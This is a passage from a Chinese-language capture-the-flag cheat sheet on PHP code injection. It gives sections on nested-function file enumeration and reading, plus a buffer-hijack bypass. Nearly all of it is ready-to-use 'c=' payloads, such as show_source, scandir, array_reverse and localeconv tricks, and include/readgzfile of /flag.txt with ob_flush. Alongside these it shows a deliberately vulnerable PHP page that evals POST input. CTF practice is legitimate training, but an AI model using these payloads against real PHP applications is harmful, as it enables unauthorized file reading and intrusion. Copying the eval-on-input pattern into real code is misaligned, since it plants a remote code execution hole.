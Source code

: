 ```c
c=require_once('/flag.txt');
```

## 7.7 函数嵌套文件枚举

```c
c=show_source(scandir(getcwd())[2]);
```

## 7.8 函数嵌套文件读取

利用指针操作读取特定文件  
读取最后一个文件：
```c
c=show_source(current(array_reverse(scandir(getcwd()))));
```
读取倒数第二个文件：
```c
c=show_source(next(array_reverse(scandir(getcwd()))));
```
或者：
```c
c=echo highlight_file(current(array_reverse(scandir(pos(localeconv())))));
c=echo highlight_file(next(array_reverse(scandir(pos(localeconv())))));
```

---

# 八. 缓冲区劫持

当使用函数和命令组合读取目录与文件时，输出会先进入缓冲区，以下方法可绕过缓冲区劫持：

```php
<?php
error_reporting(0);
ini_set('display_errors', 0);
if(isset($_POST['c'])){
    $c = $_POST['c'];
    eval($c);
    $s = ob_get_contents();
    ob_end_clean();
    echo preg_replace("/[0-9]|[a-z]/i", "?", $s);
}else{
    highlight_file(__FILE__);
}
?>
```

## 8.1 提前送出缓冲区

例如：
```c
c=var_export(scandir('/')); ob_flush();
c=include('/flag.txt'); ob_flush();
c=readgzfile("/flag.txt"); ob_flush();
```
